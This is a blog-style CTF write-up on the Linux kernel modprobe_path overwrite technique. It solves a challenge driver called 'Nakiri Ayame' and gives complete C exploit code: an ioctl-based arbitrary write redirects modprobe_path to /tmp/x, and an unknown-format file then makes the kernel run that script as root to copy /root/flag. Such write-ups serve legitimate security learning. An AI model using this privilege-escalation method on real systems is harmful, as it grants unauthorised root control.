 ```yaml
---
layout: post
title:  "Modprobe overwrite"
date:   2023-01-06
categories: ctf kernelexploit
description: modprobe overwrite - kernel exploitation 
tags: tip-binary ctf
---
```


# What is modprobe?

modprobe intelligently adds or removes a module from the Linux kernel: note that for convenience, there is no difference between _ and - in module names. modprobe looks in the module directory /lib/modules/'uname -r' for all the modules and other files, except for the optional /etc/modprobe.conf configuration file and /etc/modprobe.d directory (see modprobe.conf(5)). modprobe will also use module options specified on the kernel command line in the form of `<module>.<option>`.
src: https://linux.die.net/man/8/modprobe

modprobe can be use to add or remove loadable kernel module to the linux kernel. modprobe is installed on`/sbin/modprobe` or you can check by yourself `cat /proc/sys/kernel/modprobe`. 

# Modprobe overwrite

Since the path of modprobe is stored under the symbol `modprobe_path` in the kernel and in a writeable page, we can get the address by reading `/proc/kallsyms`, after that we can overwrite the address of `modprobe_path` with malicious path which pointed to other file in this case `evil.sh`. Then `evil.sh` will be executed when we execute unkown file type on the system. 

# Exploitation

in this post I will use a CTF challenge from Cyber Jawar Final 2022 called `Nakiri Ayame`, since the challenge require a kernel leak and this can be achieved by leaking the kernel via stacktrace or bruteforce the address I disabled the kaslr to make it easier :v (tawa penuh ke noob-an). Since we have arbitrary address write (AAW) primitive and address of the modprobe_path symbol, We can overwrite `modprobe_path` to malicious shellscript/binary so the binary/shellscript will executed as root

the kernel module will be installed at "/dev/ayame". we can interact with the kernel module with `ioctl()` and value `0x1337`.

<img src="/images/finalcj2022/1.png">

Our goal is to read the flag at `/root/flag` to do that we need to escalate from user to root. Firstly we can open the vuln kernel module 

{% highlight C %}
char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% endhighlight %}

then we need to get the address of `modprobe_path` symbol, we can use command `cat /proc/kallsyms | grep modprobe_path` to read the address since I disabled the kaslr protection :v 

    ffffffff82445b60 D modprobe_path

Now we can reverse `/tmp/x` and encoded the string as hex, this string will overwrite the modprobe_path value from `/sbin/modprobe` to `/tmp/x`. We overwrite the modprobe_path using arbitrary address write (AAW) primitive to our evil string. 

{% highlight C %}
void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}
{% endhighlight %}

Then we can trigger the bug so kernel will execute our `modprobe_path` with root user. This can be achived by create a shellscritpt/binary at `/tmp/x` since our goal to read `/root/flag` we can create a shellscript to copy the flag to /tmp and make it readable. Then we create unknown file type signature so the system will invoke `modprobe`.

{% highlight C %}
void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}
{% endhighlight %}
 

Full exploit:

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

int64_t buf[0x400];
int64_t buf2[0x400];
int fd;

char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

// ffffc90000147ec0
void get_crash(void){
    // int64_t buf[0x400];
    buf2[0] = 0xdeadbeef;
    buf2[1] = &buf;
    buf2[2] = 0x41414141;
    
    for (int i = 0; i < 0x80; ++i){
        buf[i] = 0x4242424242424242;
    }

    ioctl(fd, 0x1337, &buf);
    // return 0;
}

void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}

void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}


void main(void){
    open_dev_vuln();
    overwrite_modprobe();
    trigger_modprobe();
}

{% endhighlight %}


run the exploit and we get our `/root/flag` flag

<img src="/images/finalcj2022/2.png"/>

I don't cover how to send our exploit to the server since the challenge server already died. You can learn more how to send the exploit from <a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">here</a> kudos to the challenge author.

other useful resource:
<ul>
    <li>
        <a href="https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/"> lkmidas </a>
    </li>
    <li>
        <a href="https://sam4k.com/like-techniques-modprobe_path/"> sam4k </a>
    </li>
</ul>